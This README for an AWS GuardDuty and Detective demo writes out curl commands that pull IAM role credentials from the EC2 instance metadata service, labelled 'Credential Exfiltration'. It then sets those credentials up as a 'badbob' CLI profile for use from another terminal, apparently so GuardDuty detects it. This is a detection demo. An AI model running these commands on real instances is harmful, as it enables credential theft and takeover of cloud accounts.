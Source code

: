 # aws-guardduty-demo
Demo for AWS GuardDuty and Detective

Rest of the Details can be found here: https://dev.to/aws-builders/aws-guard-duty-1bkh

Command for EC2 Credential Exfiltration (Change ec2-admin with the correct IAM Instance Role) 
```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-admin
```

This depends on your EC2 IMDS (Instance Metadata Service) version. Details: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials

To set this role credentials in another terminal:
```
aws configure set profile.badbob.region us-east-1
aws configure set profile.badbob.aws_access_key_id <AccessKeyId>
aws configure set profile.badbob.aws_secret_access_key <SecretAccessKey>
aws configure set profile.badbob.aws_session_token <Token>
export AWS_DEFAULT_PROFILE=badbob
```
